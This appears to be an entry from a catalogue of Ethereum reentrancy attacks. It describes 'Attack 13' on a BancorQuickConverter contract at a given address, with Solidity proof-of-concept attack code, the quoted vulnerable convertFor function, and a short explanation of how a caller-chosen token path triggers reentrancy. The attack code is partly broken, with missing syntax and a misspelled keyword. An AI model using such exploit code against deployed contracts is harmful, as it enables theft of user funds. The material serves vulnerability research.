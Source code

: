 #########
Attack 13
#########

**Contract Name**

BancorQuickConverter

**Contract Address**

0x1a5f170802824e44181b6727e5447950880187ab

**Transaction Count**

0

**Invovled Ethers**

0 Ethers

**Length of the Call Chain**

1 external function

**Victim Function**

``convertFor``

**Attack Mechanisim**

Attack code:
::

    contract Attack is IERC20Token{
        BancorQuickConverter b = new BancorQuickConverter();
        constructor() payable {}
        IERC20Token[] _path

        function setPath() {
            _path[0] = Attack(this);
            _path[1] = Attack(this);
            _path[2] = Attack(this);
        }

        function deposit() public {  
            b.convertFor.value(10)(_path, 10, 0, this);
        }

        function getvalue() returns (uint) {
            return this.balance;
        }
    }

    contract IERC20Token is IEtherToken {}
    contrac IEtherToken{}

Attacked code:
::

    contract BancorQuickConverter {
        ...
        modifier validConversionPath() {
            require(_path.length > 2 && _path.length <= (1 + 2 * 10) && _path.length % 2 == 1);
            _;
        }

        function convertFor(IERC20Token[] _path, uint256 _amount, uint256 _minReturn, address _for)
            public
            payable
            validConversionPath(_path)
            returns (uint256)
        {
            // if ETH is provided, ensure that the amount is identical to _amount and verify that the source token is an ether token
            IERC20Token fromToken = _path[0];
            require(msg.value == 0 || (_amount == msg.value && etherTokens[fromToken]));

            ISmartToken smartToken;
            IERC20Token toToken;
            ITokenConverter converter;
            uint256 pathLength = _path.length;

            if (msg.value > 0)
                IEtherToken(fromToken).deposit.value(msg.value)();

            for (uint256 i = 1; i < pathLength; i += 2) {
                smartToken = ISmartToken(_path[i]);
                toToken = _path[i + 1];
                converter = ITokenConverter(smartToken.owner());

                if (smartToken != fromToken)
                    ensureAllowance(fromToken, converter, _amount);

                _amount = converter.change(fromToken, toToken, _amount, i == pathLength - 2 ? _minReturn : 1);
                fromToken = toToken;
            }

            if (etherTokens[toToken])
                IEtherToken(toToken).withdrawTo(_for, _amount);
            else
                assert(toToken.transfer(_for, _amount));

            return _amount;
        }
        ...
    }

In this case, the attacker can lauch reentrancy attack by calling ``IEtherToken(fromToken).deposit.value(msg.value)();``. The parameter ``fromToken`` is not carefully checked and can be easily changed by visitors. Visitor can modify the value of ``_path`` by passing an arbitrary parameter. Since ``fromToken`` is assigned by ``_path``, the value of ``fromToken`` is modified after ``_path``.

**Attack.** The attacker call ``setPath`` function to specify the array ``_path``, and call ``deposit`` to start attack.